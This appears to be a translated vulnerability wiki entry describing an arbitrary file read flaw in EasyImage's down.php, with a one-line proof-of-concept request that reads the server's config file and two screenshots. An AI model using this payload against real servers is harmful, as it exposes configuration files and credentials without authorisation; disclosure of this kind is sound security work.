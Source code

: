 # EasyImage down.php Arbitrary file reading vulnerability

## Vulnerability Description

The EasyImage down.php file has an arbitrary file reading vulnerability. The attacker can obtain any file on the server through the vulnerability.

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">EasyImage</span>

## Network surveying and mapping



## Vulnerability reappears

Main page

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1678874513039-c454fc7f-e231-4417-b7a9-ebadfa12d0ba.png)

Verify POC

```plain
/application/down.php?dw=./config/config.php
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1678874587131-e65d3f26-f9b1-4ada-9885-527a8627644b.png)